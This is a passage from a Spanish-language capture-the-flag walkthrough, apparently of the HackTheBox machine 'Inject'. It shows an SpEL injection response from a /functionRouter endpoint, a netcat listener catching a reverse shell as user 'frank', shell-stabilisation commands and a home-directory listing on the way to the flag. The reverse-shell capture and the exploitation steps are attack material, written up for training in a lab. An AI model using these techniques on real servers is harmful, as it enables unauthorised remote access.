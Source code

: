 ```bash
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 12 Mar 2023 00:19:35 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-03-12T00:19:35.455+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}#
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.15.51] from (UNKNOWN) [10.129.178.70] 37198
bash: cannot set terminal process group (783): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ whoami
whoami
frank
frank@inject:/$ 
```

Ejecuta los siguientes comandos

```bash
script /dev/null -c bash
CTRL+Z
stty raw echo; fg
ENTER
reset xterm
ENTER
export TERM=xterm
```

Tendremos que convertirnos en `phil` para poder leer la flag

```bash
frank@inject:/home/phil$ ll
total 24
drwxr-xr-x 3 phil phil 4096 Feb  1 18:38 ./
drwxr-xr-x 4 root root 4096 Feb  1 18:38 ../
lrwxrwxrwx 1 root root    9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil 3771 Feb 25  2020 .bashrc
drwx------ 2 phil phil 4096 Feb  1 18:38 .cache/
-rw-r--r-- 1 phil phil  807 Feb 25  2020 .profile
-rw-r----- 1 phil phil   33 Mar 11 22:53 user.txt
frank@inject:/home/phil$ 
```

Nada interesante
